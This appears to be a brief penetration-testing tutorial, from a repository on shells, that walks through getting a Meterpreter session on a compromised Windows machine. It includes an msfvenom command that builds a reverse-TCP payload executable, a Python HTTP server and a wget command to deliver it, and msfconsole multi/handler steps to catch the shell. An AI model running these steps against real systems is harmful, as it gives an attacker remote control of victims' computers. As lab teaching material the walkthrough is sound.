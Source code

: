 # Meterpreter shell

Lets first create our payload using the msfvenom and then send it on the compromised machine and then run it..

    msfvenom -p windows/x64/meterpreter/reverse_tcp -f exe -o revshell.exe LHOST=<> LHPORT=<>

Now lets transfer this file on the compromised machine using http python server deploy it on the machine using 

    python -m http.server <port>

Downlaod the file on the compromised machine using the command 

    wget http://<ip>:<port>/revshell.exe

![Screenshot 2023-11-18 143633](https://github.com/Theincognitomode/What-the-shell/assets/73027020/5ae458a3-72c3-4f67-a695-445744b227ab)

Now run the msfconsole 


- Select the module multi/handler
- set the LHOST and LPORT
- set the payload


Now type `run`

![Screenshot 2023-11-18 144645](https://github.com/Theincognitomode/What-the-shell/assets/73027020/275ffe8e-8754-4acb-9866-a3f7f453ac21)


Now just double click on the payload that you sent and you will get the meterpreter session..







